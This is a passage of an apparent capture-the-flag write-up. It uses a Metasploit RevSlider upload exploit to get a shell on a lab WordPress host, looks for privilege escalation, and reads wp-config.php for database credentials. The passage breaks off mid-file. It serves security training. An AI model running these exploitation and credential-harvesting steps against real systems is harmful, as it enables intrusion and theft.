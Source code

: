 	```NMA
	1. msfconsole
	2. use exploit/unix/webapp/wp_revslider_upload_execute
	3. (Optional) show options
	4. set rhosts 172.30.0.3 (ip of the box with the wp instance)
	5. shell
	```
5. Now we have a shell on the machine!

#### Post WP instance hack aka Database hack
1. You start in the directory of the exploit but we can go ahead and get to the root directory we care about

	```NMA
	cd /var/www
	```
2. Once in there we can see something called note.txt which reads:

	```NMA
	Your ssh key was placed in /backup/id_rsa on the DB server.
	```
3. So now we need to figure out how to get into the database. 
**Information not relevant to this challenge:**
I'll be honest here, I completely overlooked this for the first few hours. What I did, and what you should do on most penetration test boxes is run LinEnum.sh and LinuxPrivChecker.py to see if anything works right out of the gate to get root. Neither of these worked so I moved on

To get the database credentials we need some previous knowledge about Wordpress. Let’s first assume that it too uses a database (which of course it does) and then let’s assume that it has to store the login in plaintext so that I too can use them. These two things coupled means we need to cat wp-config.php

```NMA
cat wp-config.php
```

and that dumps a huge mess which is below

```NMA
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
```